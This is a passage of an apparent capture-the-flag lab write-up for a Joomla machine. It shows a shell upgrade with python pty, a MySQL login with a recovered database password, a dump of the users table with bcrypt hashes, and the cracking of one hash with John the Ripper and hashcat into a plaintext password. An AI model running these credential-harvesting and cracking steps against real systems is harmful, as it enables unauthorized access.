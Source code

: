 * `python3 -c "import pty;pty.spawn('/bin/bash')"`
* we dont have permissions to read user flag...

<figure><img src=".gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

* we have to login via SSH as logan, lets find the PW
  * `mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##`
  * show tables;
    * sd4fg\_users table...
      * select \* from sd4fg\_users

<figure><img src=".gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

* users found:
  * lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
  * **logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12**
* decrypt PW using johntheripper
  * nano hash.txt
    * insert the hash ($2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12)
  * `john hash.txt /home/zihuatanejo/Desktop/rockyou.txt`
  * `hashcat -m 3200 hash.txt /home/zihuatanejo/Desktop/rockyou.txt`
    * PW found: **tequieromucho**

<figure><img src=".gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>
